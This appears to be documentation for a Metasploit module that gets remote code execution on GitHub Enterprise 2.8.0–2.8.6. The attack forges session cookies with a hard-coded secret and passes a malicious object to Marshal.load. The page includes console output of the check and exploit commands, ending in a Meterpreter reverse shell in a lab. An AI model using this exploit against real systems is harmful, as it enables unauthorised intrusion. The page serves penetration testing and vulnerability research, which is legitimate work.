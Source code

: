 This module exploits two security issues found in Github Enterprise 2. The first problem is
that the session management uses a hard-coded secret value, which can be abused to sign a
serialized malicious object. The second problem is that the serialized string is passed to
a ```Marshal.load``` API call, which deserializes the malicious object, and executes it. A
malicious attacker can take advantage of these problems to achieve remote code execution.

According to exablue.de, this RCE was reported to GitHub, and the researcher was rewarded
$18,000 total.

## Vulnerable Application

The following versions are affected:

* 2.8.0 - 2.8.6.

For testing purposes, you can download a Github Enterprise image from the following location:

[https://enterprise.github.com/releases/](https://enterprise.github.com/releases/)

This module was specifically tested against version 2.8.0, which can be downloaded here:

[https://github-enterprise.s3.amazonaws.com/esx/releases/github-enterprise-2.8.0.ova](https://github-enterprise.s3.amazonaws.com/esx/releases/github-enterprise-2.8.0.ova)

Before you install the image, you must have a valid key. Start from here:

[https://enterprise.github.com/sn-trial](https://enterprise.github.com/sn-trial)

After signing up for a trial, you should receive an e-mail. The email will instruct you to access
your portal account. In there, you can download your github-enterprise.ghl file, which is a key
to complete installing your Github Enterprise system.

## Using github_enterprise_secret

The module consists of two features: the ```check``` command and the ```exploit``` command.

The ```check``` command determines if the host is vulnerable or not by extracting the hash of the
cookie, and then attempts to create the same hash using the default secret key. If the two match,
it means the module can tamper the cookie, and that makes the server vulnerable to deserialization.

```
msf exploit(github_enterprise_secret) > check

[*] Found cookie value: _gh_manage=BAh7B0kiD3Nlc3Npb25faWQGOgZFVEkiRTViZTAwNjg4NDViYmYzNWQzMGZl%0AZTRiYWY2YmU4Mzg2MzQ2NjFjODcxYTAyZDZlZjA0YTQ2MWIzNDBiY2VkMGIG%0AOwBGSSIPY3NyZi50b2tlbgY7AFRJIjFZZ0I5ckVkbWhwclpmNWF5RmVia3Zv%0AQzVKMUVoVUxlRWNEbjRYbHplb2R3PQY7AEY%3D%0A--ab0866fc61ea036b1e83cd65b92c2b6cc5b001ed;, checking to see if it can be tampered...
[*] Data: BAh7B0kiD3Nlc3Npb25faWQGOgZFVEkiRTViZTAwNjg4NDViYmYzNWQzMGZlZTRiYWY2YmU4Mzg2MzQ2NjFjODcxYTAyZDZlZjA0YTQ2MWIzNDBiY2VkMGIGOwBGSSIPY3NyZi50b2tlbgY7AFRJIjFZZ0I5ckVkbWhwclpmNWF5RmVia3ZvQzVKMUVoVUxlRWNEbjRYbHplb2R3PQY7AEY=
[*] Extracted HMAC: ab0866fc61ea036b1e83cd65b92c2b6cc5b001ed
[*] Expected HMAC: ab0866fc61ea036b1e83cd65b92c2b6cc5b001ed
[*] The HMACs match, which means you can sign and tamper the cookie.
[+] 192.168.146.201:8443 The target is vulnerable.
msf exploit(github_enterprise_secret) > 
```

If vulnerable, the ```exploit``` command will attempt to gain access of the system:

```
msf exploit(github_enterprise_secret) > exploit

[*] Started reverse TCP handler on 192.168.146.1:4444 
[*] Serialized Ruby stager
[*] Sending serialized Ruby stager...
[*] Transmitting intermediate stager for over-sized stage...(105 bytes)
[*] Sending stage (1495599 bytes) to 192.168.146.201
[*] Meterpreter session 2 opened (192.168.146.1:4444 -> 192.168.146.201:52454) at 2017-03-23 10:11:17 -0500
[+] Deleted /tmp/htBDuK.bin
[+] Deleted /tmp/kXgpK.bin
[*] Connection timed out

meterpreter >
```
